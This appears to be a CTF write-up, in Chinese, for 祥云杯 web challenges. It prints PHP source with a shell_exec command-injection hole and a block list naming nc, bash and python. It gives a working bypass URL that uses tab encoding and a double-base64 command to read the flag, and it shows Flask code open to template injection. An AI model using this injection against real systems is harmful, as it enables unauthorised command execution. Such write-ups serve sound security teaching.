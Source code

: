 # 祥云杯web题解

## Command

题目源码

```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/(;|'| |>|]|&| |\\$|python|sh|nc|tac|rev|more|tailf|index|php|head|nl|tail|less|cat|ruby|perl|bash|rm|cp|mv|\*|\{)/i", $ip)){
      die("<script language='javascript' type='text/javascript'>
      alert('no no no!')
      window.location.href='index.php';</script>");
  }else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
      die("<script language='javascript' type='text/javascript'>
      alert('no flag!')
      window.location.href='index.php';</script>");
  }
  $a = shell_exec("ping -c 4 ".$ip);
}
```



测试发现过滤了:`',$,&,*,;,>,],{, ,`
利用%09来绕过对空格的过滤

```
http://eci-2ze5a6nc0glncs99tzta.cloudeci1.ichunqiu.com/?url=-h|`echo%09WTJGMElDOWxkR012TG1acGJtUm1iR0ZuTDJac1lXY3VkSGgw|base64%09-d|base64%09-d`
```





## flaskbot

测试一波发现输入点都没有ssti,并且开着报错

我们利用报错来拿源码

最关键的源码`render_template_string(guessNum(num,name))` 是直接访问不存在界面得到的



```python
@app.route('/',methods=['POST','GET'])
def Hello():
    if request.method == "POST":
        user = request.form['name']
        resp = make_response(render_template("guess.html",name=user))
        resp.set_cookie('user',base64.urlsafe_b64encode(user),max_age=3600)
        return resp
    else:
        user=request.cookies.get('user')
        if user == None:
           return render_template("index.html")
        else:
            user=user.encode('utf-8')
            return render_template("guess.html",name=base64.urlsafe_b64decode(user))
        
 
@app.route('/guess',methods=['POST'])
def Guess():
    user=request.cookies.get('user')
```